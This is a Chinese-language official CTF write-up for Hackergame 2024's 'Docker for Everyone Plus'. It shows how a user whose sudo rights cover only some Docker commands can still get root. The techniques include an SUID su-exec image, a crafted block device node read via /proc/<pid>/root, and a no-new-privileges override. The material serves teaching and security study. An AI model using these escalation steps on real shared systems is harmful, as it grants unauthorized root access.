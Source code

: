 # Docker for Everyone Plus

题解作者：[RTXUX](https://github.com/RTXUX)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：general

- 题目分值：No Enough Privilege（200）+ Unbreakable!（200）

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 Docker，之前他直接将同学的用户加入 `docker` 组，但在去年参加了信息安全大赛之后，他发现将用户加入 `docker` 用户组相当于给了 root 权限。于是他想到了一个好方法，只授予普通用户使用 `sudo` 运行特定 Docker 命令的权限，这样就不需要给同学完整的 sudo 权限，也不用将同学加入 `docker` 组了！

但果真如此吗？

---

本题有两个小题。

- 可以使用 202.38.93.141 的 10338 端口或 [这个链接](http://202.38.93.141:10339/?token={token}) 访问第一小题。
- 可以使用 202.38.93.141 的 10340 端口或 [这个链接](http://202.38.93.141:10341/?token={token}) 访问第二小题。

---

提供的环境会自动登录低权限的 `user` 用户。登录后可以通过特定的 `sudo docker` 命令使用 Docker，通过 `sudo -l` 可以查看允许提权执行的命令。读取 `/flag`（注意其为软链接）获取 flag。

提供的环境中有 `rz` 命令，可以使用 ZMODEM 接收文件。

题目环境运行 15 分钟后会自动关闭。

你可以在下面列出的两种方法中任选其一来连接题目：

- 点击上面的链接，通过网页终端与远程交互。如果采用这种方法，在正常情况下，你不需要手动输入 token。
- 在 Linux、macOS、WSL 或 Git Bash 等本地终端中使用 `stty raw -echo; nc 202.38.93.141 10338; stty sane`（第一小题）或 `stty raw -echo; nc 202.38.93.141 10340; stty sane`（第二小题）命令来连接题目。如果采用这种方法，你必须手动输入 token（复制粘贴也可）。**注意，输入的 token 不会被显示，输入结束后按 Ctrl-J 即可开始题目。**

无论采用哪种方法连接题目，启动题目均需要数秒时间，出现黑屏是正常现象，请耐心等待。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

## 题解

这题是 @taoky 根据我在某实验室的集群上~~手痒~~提权的经历产生的 idea，我负责实现。去年 [Docker for Everyone](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Docker%20for%20Everyone/README.md) 这题指出了 `docker` 用户组和 `root` 事实上是等价的，然而今年我看到有实验室集群使用受限 sudo 的方案来让大家能使用 Docker，但这种方案要处理的 corner case 很多，难以正确实现。

### No Enough Privilege

这个小题很简单，观察 `sudo -l` 的输出，发现 `user` 用户可以执行 `docker image load`，但 `docker run` 不能指定 `root` 用户，因此只需要制作自定义镜像，在其中嵌入合适的具有 SUID 的程序用来提权即可。下面的 Dockerfile 构建了一个简单的镜像。

```Dockerfile
FROM docker.io/library/alpine:latest

RUN apk add --no-cache su-exec && \
    chmod +s /sbin/su-exec
```

然后将该镜像导出后使用 ZModem 上传至环境，执行 `sudo docker image load` 导入，最后执行并把主机 `/` 挂入容器，提权即可获得 flag。

```sh
docker run --rm -u 1000:1000 -it --privileged -v /:/host:ro (image name)
exec su-exec root /bin/ash
cat /host/flag
```

### Unbreakable!

这个小题稍微增加了一些限制，从 `sudo -l` 可以看出 `docker run` 命令必须带上 `--security-opt=no-new-privileges` 参数，因此不能在容器内提权。但注意到 `mount` 的输出中 `/var/lib/docker` 挂载点没有 `nodev` 选项，而 flag 又位于 `/dev/vdb`，具有固定的设备号，因此我们可以加载一个带对应设备文件，且该文件所有者为 1000:1000 的镜像来读取 flag。

然而，Docker 采用了 cgroup 进行资源限制，其中 Device Controller 阻止容器访问未经授权的设备，同时也可以注意到，运行带 `--privileged` 或 `--device` 的 Docker 命令是被禁止的，因此无法从容器内读取 flag。但我们可以另辟蹊径，procfs 中提供了一个“穿越点”，即 `/proc/<pid>/root`，可以用于访问对应进程的挂载命名空间的根目录，而 `sudo docker run` 启动的容器是以 `user` 的 UID 执行的，因此 `user` 可以访问主机上 procfs 中容器内进程的目录。所以只需要预制一个带已修改所有者的设备文件的镜像，使用该镜像启动一个 `sleep` 命令，然后在主机上 `ps` 查看 `sleep` 命令的 PID，读取 `/proc/<pid>/root/flag` 即可得到 flag。

构建解题镜像的 Dockerfile:

```Dockerfile
FROM docker.io/library/alpine:latest

RUN mknod /flag b 253 16 && \
    chown 1000:1000 /flag
```

## 附注

@taoky:

看到群里很多人在困惑如何使用 ZMODEM 协议传文件。其中一个坑点是需要在 `/tmp`（或者其他 tmpfs）下面接收数据，因为其他部分是只读文件系统。`sz` 只会显示 "skipped: xxx" 而不会显示传输失败原因。

以下给出几种我本地测试有效的方法。这些方法都需要**本地安装 `lrzsz`**。注意 Arch Linux 用户需要使用 `lrzsz-sz` 而非 `sz`。

1. `screen`

    启动 `screen` 之后在其中 `nc` 连接，启动成功，输入 `rz` 后按下 Ctrl + A，然后输入 `:exec !! sz /path/to/yourfile`。

2. [Konsole](https://apps.kde.org/zh-cn/konsole/)

    `nc` 连接之后输入 `rz`，然后在弹出的文件对话框中选择对应的文件即可。

至于 Windows 用户，我也不知道咋上传。

因为工期比较紧张，所以最后用了 ZMODEM 这种比较低效的方法处理，网页 nc 也没有做相关的逻辑。之后如果还有 ZMODEM 的题目的话可能会考虑做一下网页端的处理，当然更有可能是用更加正常的协议来做文件上传。

@RTXUX (2024-11-09):

今天比赛结束后看到可以用 `--security-opt=no-new-privileges:false` 来绕过第二小问的限制，感觉当头一棒。其实赛前我草草看了一眼 [Docker CLI 的源码](https://github.com/docker/cli/blob/917d2dc837673ba6426ff72cabd53325028be809/cli/command/container/opts.go#L918)，认为解析 `--security-opt` 的部分会跳过对 `no-new-privileges` 值的解析，以为这个选项不能被覆盖，今天仔细重新看了一下这段代码，才理解了它的意思是 `no-new-privileges` 不需要值，但指定它的值也可以覆盖，导致了非预期解，再次印证了上面那句话「这种方案要处理的 corner case 很多，难以正确实现」。
